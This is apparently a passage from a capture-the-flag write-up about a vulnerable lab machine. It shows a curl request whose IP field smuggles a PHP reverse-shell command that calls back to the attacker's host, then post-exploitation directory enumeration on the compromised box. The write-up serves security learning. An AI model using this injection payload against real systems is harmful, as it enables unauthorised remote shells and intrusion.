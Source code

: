     :::text
    curl -i -s -k  -X 'POST' \
        -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0' -H 'DNT: 1' -H 'Referer: http://192.168.0.18:33447/Challenge/Magic_Box/command.php' -H 'Content-Type: application/x-www-form-urlencoded' \
        -b 'sec_session_id=2cdjrm9k6khpfiilsad1kmnpj2' \
        --data-binary $'IP=%3B+php+-r+%27%24sock%3Dfsockopen%28%22192.168.0.13%22%2C6666%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27&submit=submit' \
        'http://192.168.0.18:33447/Challenge/Magic_Box/command.php'

Now that we have a shell, let us see what we can do.

## Shell exploitation

First we discover what is at our disposal, mostly in the `/home/`
(`bash_history`). In the `/home/acid/` there is something interesting but
empty:

    ls -la /home/acid/.su*
    -rw-r--r-- 1 acid acid 0 Jul 31 17:27 /home/acid/.sudo_as_admin_successful

Let us see what else we got on the machine:

    $ ls /
    bin
    boot
    cdrom
    dev
    etc
    home
    initrd.img
    lib
    lost+found
    media
    mnt
    opt
    proc
    root
    run
    s.bin
    sbin
    srv
    sys
    tmp
    usr
    var
    vmlinuz
    $ ls /opt/
    $ ls /media
    acid
    floppy
    floppy0
    $ ls /s.bin
    investigate.php
    $ cat /s.bin/investigate.php
    <?php
    echo "Now you have to behave like an investigator to catch the culprit\n";
    ?
